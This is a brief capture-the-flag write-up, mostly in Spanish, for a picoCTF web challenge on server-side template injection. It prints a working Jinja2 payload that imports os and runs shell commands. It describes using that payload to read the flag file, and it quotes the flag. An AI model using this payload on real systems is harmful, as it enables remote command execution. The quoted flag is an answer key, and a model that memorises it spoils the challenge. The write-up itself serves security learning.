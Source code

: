 I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:52688/)!

Hints:
1.-Server Side Template Injection

### Solucion

```
Es una pagina web en la que nos deja escribir texto en un cuadro, al comprobar con doble llave vemos que ejecuta operacion, buscando en internet en una pagina encontre esta:
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

Que es una plantilla peligrosa para ejecutar comandos remotamente en un sistema,
solo remplace id por cat flag y listo la pagina soloto esta:

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
```
